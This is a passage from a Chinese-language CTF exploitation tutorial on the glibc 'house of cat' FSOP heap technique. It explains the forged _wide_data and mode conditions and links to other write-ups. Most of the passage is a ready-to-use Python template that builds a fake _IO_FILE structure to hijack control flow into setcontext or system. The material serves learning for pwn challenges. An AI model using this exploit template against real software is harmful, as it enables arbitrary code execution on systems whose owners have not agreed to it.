   这里用到了前面提到的`_wide_data`跳表，可以直接伪造so easy

2. `mode!=0`

   `rcx`=>`mode`

   如果无法满足，可以再做一个FILE结构体，进入第二个结构体时就置好了，详细内容参考[Photon的博客](https://phot0n.com/2022/09/06/%E9%AB%98%E7%89%88%E6%9C%AC%E7%9A%84%E5%A0%86%E5%88%A9%E7%94%A8%E4%B8%8EFSOP/)

构造挺麻烦的，理解之后可以直接上别人的模板

```c
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```

详细题解可以看[另一篇博客](https://deepunk42.github.io/2023/07/27/house-of-cat/)
